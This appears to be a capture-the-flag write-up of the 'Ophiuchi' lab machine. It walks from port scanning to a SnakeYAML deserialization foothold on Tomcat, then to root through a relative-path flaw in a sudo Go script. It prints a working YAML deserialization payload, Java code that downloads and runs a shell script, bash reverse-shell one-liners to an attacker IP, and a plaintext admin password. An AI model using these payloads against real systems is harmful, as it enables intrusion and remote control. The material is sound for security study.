



# Ophiuchi
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.227 --min-rate 1000                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 17:00 GMT
Warning: 10.10.10.227 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.227 (10.10.10.227)
Host is up (0.18s latency).
Not shown: 63651 closed tcp ports (conn-refused), 1882 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 123.04 seconds

```
```
└─$ nmap -Pn -p22,8080 -sC -sV 10.10.10.227 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 17:04 GMT
Nmap scan report for 10.10.10.227 (10.10.10.227)
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.68 seconds

```

- Web Server


- `goubster`
```
└─$ gobuster dir -u http://10.10.10.227:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error -t 50

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.227:8080/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test                 (Status: 302) [Size: 0] [--> /test/]
/manager              (Status: 302) [Size: 0] [--> /manager/]

```

## Foothold
- It's a `tomcat` 
  - Default creds didn't work


- Let's play with `YAML Parser`
  - Entering plain text results in message


- Yamls usually get deserialized
  - Since it's a `tomcat`, we have to google for `java yaml deserialization exploit/attack`
  - https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

- If we send the payload, it actually works


- The blog contains [repo](https://github.com/artsploit/yaml-payload) for `rce`
```
<SNIP>
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("ping -c 1 10.10.16.4");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
<SNIP>
```

- I had `java 17` on my box, which is not supported by the `box`
  - The payload will break and result in `500` error
  - So compile the project using `java 11`
```
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java --release 11            
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```
```
└─$ jar -cvf yaml-payload.jar -C src/ .                                         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1607) (out= 677)(deflated 57%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1480) (out= 391)(deflated 73%)
```

- Send the payload and we see our ping



- To get a reverse shell we have to create a shell script which will be downloaded and then executed from the box
  - Because `nc` connections were not stable
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1
```
```
<SNIP>
    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget 10.10.16.4/shell.sh -O /dev/shm/shell.sh");
            p.waitFor();
            Process p = Runtime.getRuntime().exec("chmod +x /dev/shm/shell.sh");
            p.waitFor();
            Process p = Runtime.getRuntime().exec("/dev/shm/shell.sh");
            p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
<SNIP>
```



## User
- We can start with `tomcat`'s `tomcat-users.xml`
  - It contains `admin` creds
```
<SNIP>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
<SNIP>
```

- And the password is reused
```
tomcat@ophiuchi:/$ su - admin
Password: 
admin@ophiuchi:~$ 
```
## Root
- `sudo`
```
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go

```

- `index.go`
```
admin@ophiuchi:~$ cat /opt/wasm-functions/index.go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}

```
```
admin@ophiuchi:/opt/wasm-functions$ cat deploy.sh 
#!/bin/bash

# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
```

- We can notice right away that `index.go` does not use `absolute` path
  - So we can abuse it
  - We have to create our own `main.wasm` and `deploy.sh`
  - If we try to run `sudo /usr/bin/go run /opt/wasm-functions/index.go`, it will won't work due to errors
  - Let's reverse `main.asm` using [wabt](https://github.com/WebAssembly/wabt)
```
└─$ wasm-decompile main.wasm                                                                                        
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

- The function `info` returns 0.
  - Let's create a `wasm` file using [WasmFiddle](https://wasdk.github.io/WasmFiddle/)
  - We have to change return value to `1`, since there is a check in `index.go`
  - Click `Build` and then download `wasm` file


- Now upload to box and run `sudo /usr/bin/go run /opt/wasm-functions/index.go` from folder where our `deploy.sh` and `main.wasm` are located
```
admin@ophiuchi:/dev/shm$ ls -lha
total 12K
drwxrwxrwt  2 root   root    100 Nov  3 20:20 .
drwxr-xr-x 17 root   root   3.9K Nov  3 15:36 ..
-rw-rw-r--  1 admin  admin    58 Nov  3 20:20 deploy.sh
-rw-rw-r--  1 admin  admin    92 Nov  3 20:17 main.wasm
-rwxr-x---  1 tomcat tomcat   58 Nov  3 18:23 shell.sh
```
```
#!/bin/bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'
```
```
admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```


